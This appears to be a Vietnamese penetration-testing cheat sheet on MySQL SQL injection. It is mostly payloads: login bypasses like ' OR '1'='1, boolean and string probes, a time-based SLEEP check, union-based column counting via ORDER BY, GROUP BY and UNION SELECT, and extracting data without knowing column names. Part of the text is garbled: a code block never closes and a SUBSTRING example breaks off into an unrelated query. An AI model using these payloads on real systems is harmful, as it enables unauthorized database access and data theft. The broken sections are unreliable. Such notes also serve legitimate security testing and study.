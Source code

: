 # Tổng quan

- MySQL là một phần mềm mã nguồn mở, chạy trên nhiều nền tảng ( Linux, macOS, Windows, Oracle Solaris, OpenBSD và HP-UX,..)
- MySQL có thể kết hợp với mọi ngôn ngữ lập trình khác, thông thường là PHP
- MySQL không cho phép hủy query giữa chừng
- Sử dụng Enterprise Manager của Oracle

# MYSQL Testing 

**1.Login**

Query like `SELECT * FROM Users WHERE username = 'Kanye West' AND password = 'Taylor Swift'`

```sql
SELECT * FROM Users WHERE username = '' OR '1' = '1' AND password = '';
SELECT * FROM Users WHERE username = '' OR 1 -- AND password = '';
SELECT * FROM Users WHERE username = "" OR "" = "" AND password = "";
SELECT * FROM Users WHERE username = '' = '' AND password = '';
SELECT * FROM Users WHERE username LIKE '' AND password LIKE '';
SELECT * FROM Users WHERE username = 0-- AND password = '';
```

**2. Numeric**

Query like `SELECT * FROM Table WHERE id = Justin`

```sql
SELECT * FROM Table WHERE id = 123 AND 1;
SELECT * FROM Table WHERE id = 123 AND 0;
SELECT * FROM Table WHERE id = 123 AND true;
SELECT * FROM Table WHERE id = 123 AND false;
SELECT * FROM Table WHERE id = 123 AND (1-false);
SELECT * FROM Table WHERE id = 123 AND (1-true);
```

**3. Strings**

Query like `SELECT * FROM Table WHERE id = 'Kim';`

```sql
SELECT * FROM Table WHERE id = ''';
SELECT * FROM Table WHERE id = '';
SELECT * FROM Table WHERE id = '"';
SELECT * FROM Table WHERE id = '""'; -- "" trả về chuỗi rỗng

# String concatenation

```sql
CONCAT('foo','bar')
```

# Substring

```sql
SUBSTRING('foobar', dụ
SELECT IF(
    (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'tên_cơ_sở_dữ_liệu' AND table_name = 'tên_bảng') > 0,
    SLEEP(10), --  10 giây nếu bảng tồn tại
    'a' -- Nếu không, trả về 'a'
) AS result;
```

# MYSQL Union Based 

**Dò số cột**

- Sử dụng `order by` hoặc `group by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

hoặc

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `UNION SELECT`

```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `SELECT * FROM SOME_EXISTING_TABLE` ( phần này hoạt động nếu tính năng hiển thị lỗi được bật )

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#Operand should contain 3 column(s)
                                        # This error means query uses 3 column
                                        #-1' UNION SELECT 1,2,3--+	True
```

- Trích xuất dữ liệu mà không cần biết tên cột

```
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
-- dbname ở đây chỉ là đặt tên cho kết quả truy 
```
